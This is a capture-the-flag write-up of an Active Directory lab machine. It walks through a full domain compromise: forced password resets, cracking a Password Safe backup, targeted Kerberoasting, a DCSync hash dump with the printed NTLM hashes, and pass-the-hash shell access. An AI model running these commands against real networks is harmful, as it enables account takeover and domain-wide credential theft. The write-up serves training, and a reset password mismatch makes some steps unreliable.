Initial enumeration was performed with Nmap to identify open ports and services on the target host.
nmap -sVC -p- --open -sS --min-rate 5000 -v -n --stats-every=5s -Pn -oN administrator_scan 10.10.11.42BloodHound was used to map domain relationships and potential attack paths.
bloodhound-python -u olivia -d administrator.htb -c All -ns 10.10.11.42
Analysis revealed that the user Olivia could perform ForceChangePassword on the user Michael.
net rpc password "michael" "newP@ssword2022" -U "administrator.htb/olivia%ichliebedich" -S "dc.administrator.htb"Once Michael's password was changed, access via SMB was established:
netexec smb 10.10.11.42 -u "michael" -p "Admin1234@"
Using Michael's account, Benjamin's password was changed to allow further access.
net rpc password "benjamin" "Admin1234@" -U "administrator.htb/michael%Admin1234@" -S "dc.administrator.htb"
Access to FTP with Benjamin's credentials was successful, revealing a backup file.


get Backup.psafe3
The backup file was converted to a John-the-Ripper compatible hash and cracked using a wordlist.
pwsafe2john Backup.psafe3 > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Three user passwords were discovered, but only Emily's credentials were usable:

Emily had GenericWrite permissions over Ethan, which allowed a Kerberoast attack.

Time synchronization was ensured using NTP before requesting service tickets.
sudo ntpdate 10.10.11.42TargetKerberoast was used to obtain Ethan's hash, which was then cracked with John.

john hash_ethan.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs
With Ethan's credentials, a DCSync attack was performed to dump all domain hashes using Impacket.
impacket-secretsdump 'administrator.htb'/ethan:'limpbizkit'@'10.10.11.42'Sample domain hashes obtained:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
Finally, using the Administrator hash, an Evil-WinRM session was established to gain full control over the target machine and collect both flags.
evil-winrm -i 10.10.11.42 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e